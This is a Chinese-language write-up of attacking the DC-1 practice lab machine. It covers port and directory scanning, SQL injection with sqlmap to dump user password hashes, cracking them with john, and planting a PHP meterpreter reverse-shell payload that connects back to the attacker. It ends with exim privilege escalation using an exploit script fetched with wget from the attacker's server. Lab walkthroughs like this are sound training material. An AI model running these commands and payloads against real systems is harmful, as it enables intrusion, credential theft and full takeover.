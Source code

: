 
# 0x00环境

攻击机：kali：192.168.1.28

靶机DC-1：192.168.1.16


# 0x01实战


## 端口扫描

```
nmap -sV -A 192.168.1.16
```

![image-20220112164641097.png](../../../../_img\assets/1652257073736-8390267d-bcfa-418b-b640-463bff073dcf.png)


## 目录扫描

![image-20220112165133362.png](../../../../_img\assets/1652257077313-fb27c613-5af4-4c9f-ac5e-d0387bfb15ff.png)

查看robots.txt文件，发现后台等登录地址

![image-20220112165231585.png](../../../../_img\assets/1652257081676-3ff7a213-754d-45b5-87c5-fbc3be4f9fc8.png)


## 漏洞发现

漏洞发现在浏览页面的时候发现URL处可能存在SQL注入漏洞<br />添加单引号报错

![image-20220112165530031.png](../../../../_img\assets/1652257088726-6bf2b76d-b555-40b4-85ee-55fa01013825.png)


## 漏洞利用

使用sqlmap暴库

```
sqlmap http://192.168.1.16/?nid=1 --dbs
```

![image-20220112165729453.png](../../../../_img\assets/1652257095565-1cf1584a-6460-4476-8c51-0e66c6d7e88c.png)

暴表

```
sqlmap http://192.168.1.16/?nid=1 -D d7db --tables
```

![image-20220112165832577.png](../../../../_img\assets/1652257098999-2e3e888b-7371-46ef-b4ac-eea0376cd2a7.png)

暴字段

```
sqlmap http://192.168.1.16/?nid=1 -D d7db -T users --columns
```

![image-20220112165916653.png](../../../../_img\assets/1652257102535-098e9a30-fe51-4441-9619-1ebe3482a0ee.png)

拖库

```
sqlmap http://192.168.1.16/?nid=1 -D d7db -T users -C name,pass --dump
```

![image-20220112165958237.png](../../../../_img\assets/1652257106014-f3bd2e15-3835-4b12-acc9-b3649b8f9bfa.png)

将密码hash保存到password.txt中，使用john破解

```
john password.txt
```

![image-20220112170512393.png](../../../../_img\assets/1652257109218-31086dcd-7269-44b9-874f-7907569cc4f1.png)

得到john的的密码turtle

使用账户john登录后台，成功

![image-20220112170645473.png](../../../../_img\assets/1652257112439-56d63d7d-064e-4757-82b0-f7e1d5123018.png)

在浏览后台的时候发现我们可以加入PHP代码

![image-20220113091509192.png](../../../../_img\assets/1652257116005-5fa12f63-12d5-478b-8c6f-879128498525.png)


## 反弹shell

使用msfvenom生成一个php木马文件

```
msfvenom -p php/meterpreter/reverse_tcp  lhost=192.168.1.28 port=4444 -f raw
```

![image-20220113091917661.png](../../../../_img\assets/1652257123879-a669f2e7-8e4f-4d97-83a6-b7ab2baa9c0f.png)

创建恶意文件文件内容为生成的木马

![image-20220113092121416.png](../../../../_img\assets/1652257127135-c78b7446-53b1-40f8-a408-47589ef056c4.png)

创建监听

```
┌──(root💀kali)-[~]
└─# msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.28
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

在浏览器中访问木马文件就得知道木马文件所在的位置

![image-20220113092213870.png](../../../../_img\assets/1652257131873-07e3f95f-70a1-4767-8e29-3956f9f3f0d1.png)

通过发送邮件的方式来触发

![image-20220113093249554.png](../../../../_img\assets/1652257136266-a692299e-7c24-425e-80c8-0d939472b93c.png)

成功反弹shell

![image-20220113093312743.png](../../../../_img\assets/1652257140438-a65d0b15-740c-4ee4-844c-6a7fd64eaf02.png)


## 提权

查看系统信息

```
cat /proc/version
cat /etc/issue
```

![image-20220113093629200.png](../../../../_img\assets/1652257146731-454cd7ed-4aaa-40de-abe9-fe2d792b07df.png)

没有可以利用的

查找suid权限的程序

```
find / -user root -perm -4000 -print 2>/dev/null
```

![image-20220113093934660.png](../../../../_img\assets/1652257156808-6d2d94cc-9815-4a70-9e03-b1c5a6ec7793.png)

查找到exim存在可以利用的提权脚本

![image-20220113095547171.png](../../../../_img\assets/1652257164333-0891365b-a775-479a-ad92-8d25e9be4cba.png)

查看目标机exim的版本

```
/usr/sbin/exim4 --version
```

![image-20220113095641118.png](../../../../_img\assets/1652257168039-abfcdb2b-74c1-4125-a625-12a01c638efe.png)

查看脚本，有两种利用方法

![image-20220113100227439.png](../../../../_img\assets/1652257171088-34914758-b022-45d2-8336-ed04ca1c1f78.png)

vi查看一下脚本格式

![image-20220113100302641.png](../../../../_img\assets/1652257174322-ee9b9139-48d4-4493-8d9e-9476f584036a.png)

修改为linux格式

```
dos2unix 46996.sh
```

![image-20220113100419582.png](../../../../_img\assets/1652257178032-6a7f1d29-2797-4ff8-9865-90c354e3acc0.png)

使用python3创建HTTP服务

```
python3 -m http.server
```

![image-20220113100604530.png](../../../../_img\assets/1652257181577-51d286cf-71a6-4db7-ae3c-dcea99d37a25.png)

进入靶机的tmp目录下载脚本

```
 wget http://192.168.1.28:8000/46996.sh
```

![image-20220113100811617.png](../../../../_img\assets/1652257184205-d8a86aab-7918-49b5-813e-7f5a25c9e357.png)

赋予脚本执行权限，并执行

```
chmod +x 46996.sh
./46996 -m netcat
```

![image-20220113102615811.png](../../../../_img\assets/1652257187652-554e621e-6a76-438e-adc9-9a0e6a4dd93f.png)


## final-flag

在root根目录找到flag

![image-20220113102838585.png](../../../../_img\assets/1652257193325-aa099054-7e22-47c4-9f7e-28cbfc338189.png)
